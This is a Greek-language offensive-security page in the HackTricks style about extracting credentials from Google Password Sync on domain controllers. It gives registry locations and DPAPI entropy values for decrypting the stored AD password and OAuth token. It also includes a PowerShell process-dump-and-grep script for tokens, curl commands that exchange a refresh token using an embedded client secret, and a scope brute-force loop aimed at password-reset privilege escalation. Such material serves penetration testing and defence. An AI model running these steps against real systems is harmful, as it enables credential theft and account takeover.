

# GPS - Google Password Sync

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Αυτό είναι το δυαδικό και η υπηρεσία που προσφέρει η Google προκειμένου να **διατηρεί συγχρονισμένα τους κωδικούς πρόσβασης των χρηστών μεταξύ του AD** και του Workspace. Κάθε φορά που ένας χρήστης αλλάζει τον κωδικό του στο AD, ρυθμίζεται στη Google.

Εγκαθίσταται στο `C:\Program Files\Google\Password Sync` όπου μπορείτε να βρείτε το δυαδικό `PasswordSync.exe` για να το ρυθμίσετε και το `password_sync_service.exe` (η υπηρεσία που θα συνεχίσει να τρέχει).

### GPS - Configuration

Για να ρυθμίσετε αυτό το δυαδικό (και υπηρεσία), είναι απαραίτητο να **του δώσετε πρόσβαση σε έναν Super Admin principal στο Workspace**:

- Συνδεθείτε μέσω **OAuth** με τη Google και στη συνέχεια θα **αποθηκεύσει ένα token στο μητρώο (κρυπτογραφημένο)**
- Διαθέσιμο μόνο σε Domain Controllers με GUI
- Δίνοντας κάποια **credentials Service Account από το GCP** (json αρχείο) με δικαιώματα να **διαχειρίζεται τους χρήστες του Workspace**
- Πολύ κακή ιδέα καθώς αυτά τα credentials δεν λήγουν ποτέ και θα μπορούσαν να χρησιμοποιηθούν κακόβουλα
- Πολύ κακή ιδέα να δώσετε πρόσβαση σε SA πάνω από το workspace καθώς ο SA θα μπορούσε να παραβιαστεί στο GCP και θα είναι δυνατό να γίνει pivot στο Workspace
- Η Google το απαιτεί για domain controlled χωρίς GUI
- Αυτά τα creds αποθηκεύονται επίσης στο μητρώο

Όσον αφορά το AD, είναι δυνατό να υποδείξετε να χρησιμοποιεί το τρέχον **applications context, ανώνυμο ή κάποια συγκεκριμένα credentials**. Εάν επιλεγεί η επιλογή credentials, το **username** αποθηκεύεται μέσα σε ένα αρχείο στο **δίσκο** και ο **κωδικός πρόσβασης** είναι **κρυπτογραφημένος** και αποθηκεύεται στο **μητρώο**.

### GPS - Dumping password and token from disk

> [!TIP]
> Σημειώστε ότι [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει **GPS**, να αποκτήσει πληροφορίες σχετικά με τη ρύθμιση και **ακόμη και να αποκρυπτογραφήσει τον κωδικό πρόσβασης και το token**.

Στο αρχείο **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** είναι δυνατό να βρείτε μέρος της ρύθμισης όπως το **`baseDN`** του AD που έχει ρυθμιστεί και το **`username`** των credentials που χρησιμοποιούνται.

Στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`** είναι δυνατό να βρείτε το **κρυπτογραφημένο refresh token** και τον **κρυπτογραφημένο κωδικό πρόσβασης** για τον χρήστη AD (αν υπάρχει). Επιπλέον, εάν αντί για ένα token, χρησιμοποιηθούν κάποια **credentials SA**, είναι επίσης δυνατό να βρείτε αυτά κρυπτογραφημένα σε αυτή τη διεύθυνση μητρώου. Οι **τιμές** μέσα σε αυτό το μητρώο είναι μόνο **προσβάσιμες** από **Administrators**.

Ο κρυπτογραφημένος **κωδικός πρόσβασης** (αν υπάρχει) είναι μέσα στο κλειδί **`ADPassword`** και είναι κρυπτογραφημένος χρησιμοποιώντας το API **`CryptProtectData`**. Για να τον αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Το κρυπτογραφημένο token (αν υπάρχει) είναι μέσα στο κλειδί **`AuthToken`** και είναι κρυπτογραφημένο χρησιμοποιώντας το API **`CryptProtectData`**. Για να το αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Επιπλέον, είναι επίσης κωδικοποιημένο χρησιμοποιώντας base32hex με το λεξικό **`0123456789abcdefghijklmnopqrstv`**.

Οι τιμές entropy βρέθηκαν χρησιμοποιώντας το εργαλείο. Ρυθμίστηκε για να παρακολουθεί τις κλήσεις προς **`CryptUnprotectData`** και **`CryptProtectData`** και στη συνέχεια το εργαλείο χρησιμοποιήθηκε για να εκκινήσει και να παρακολουθήσει το `PasswordSync.exe` το οποίο θα αποκρυπτογραφήσει τον ρυθμισμένο κωδικό πρόσβασης και το auth token στην αρχή και το εργαλείο θα **δείξει τις τιμές για την entropy που χρησιμοποιήθηκε** και στις δύο περιπτώσεις:

<figure><figcaption></figcaption></figure>

Σημειώστε ότι είναι επίσης δυνατό να δείτε τις **αποκρυπτογραφημένες** τιμές στην είσοδο ή έξοδο των κλήσεων σε αυτές τις APIs επίσης (σε περίπτωση που κάποια στιγμή το Winpeas σταματήσει να λειτουργεί).

Σε περίπτωση που ο συγχρονισμός κωδικών πρόσβασης έχει **ρυθμιστεί με SA credentials**, θα αποθηκευτεί επίσης σε κλειδιά μέσα στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Ακριβώς όπως με το GCPW, είναι δυνατό να κάνετε dump της μνήμης της διαδικασίας του `PasswordSync.exe` και των διαδικασιών `password_sync_service.exe` και θα μπορείτε να βρείτε refresh και access tokens (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τα ρυθμισμένα credentials του AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> και τις διαδικασίες <code>password_sync_service.exe</code> και αναζητήστε tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

> [!NOTE]
> Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατό να ζητήσετε κανένα scope για το access token καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.
>
> Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.

Από προεπιλογή, το GPS δεν θα έχει πρόσβαση ως χρήστης σε κάθε πιθανό OAuth scope, οπότε χρησιμοποιώντας το παρακάτω script μπορούμε να βρούμε τα scopes που μπορούν να χρησιμοποιηθούν με το `refresh_token` για να δημιουργήσουμε ένα `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.user
```
Ποιο είναι το ίδιο που λαμβάνετε αν δεν υποδείξετε κανένα πεδίο.

> [!CAUTION]
> Με αυτό το πεδίο θα μπορούσατε **να τροποποιήσετε τον κωδικό πρόσβασης ενός υπάρχοντος χρήστη για να κλιμακώσετε τα προνόμια**.

{{#include ../../../banners/hacktricks-training.md}}
